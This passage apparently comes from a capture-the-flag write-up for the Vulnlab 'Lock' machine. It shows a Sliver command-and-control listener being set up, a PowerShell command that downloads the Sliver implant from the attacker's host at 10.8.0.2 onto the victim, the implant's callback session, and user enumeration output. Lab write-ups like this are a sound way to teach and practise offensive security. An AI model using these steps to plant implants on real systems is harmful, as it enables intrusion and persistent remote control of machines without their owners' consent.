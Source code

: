 ```c
sliver > http --lport 8888

[*] Starting HTTP :8888 listener ...
[*] Successfully started job #1
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Lock/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```c
PS C:\temp> iwr 10.8.0.2:8000/sliver.exe -o sliver.exe
iwr 10.8.0.2:8000/sliver.exe -o sliver.exe
```

```c
sliver > http --lport 8888

[*] Starting HTTP :8888 listener ...
[*] Successfully started job #1
```

```c
[*] Session 11a3cbbb OVERSEAS_APPEAL - 10.10.87.100:50483 (Lock) - windows/amd64 - Sat, 23 Mar 2024 06:46:00 EDT
```

## Enumeration

After completing the `persistence setup` I moved forward with some basic enumeration.

```c
PS C:\> whoami /all
whoami /all

USER INFORMATION
----------------
User Name          SID                                           
================== ==============================================
lock\ellen.freeman S-1-5-21-3479006486-3698385926-2473385619-1000


GROUP INFORMATION
-----------------
Group Name                             Type             SID                                                           Attributes                                        
====================================== ================ ============================================================= ==================================================
Everyone                               Well-known group S-1-1-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3                                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                      Alias            S-1-5-32-568                                                  Mandatory group, Enabled by default, Enabled group
```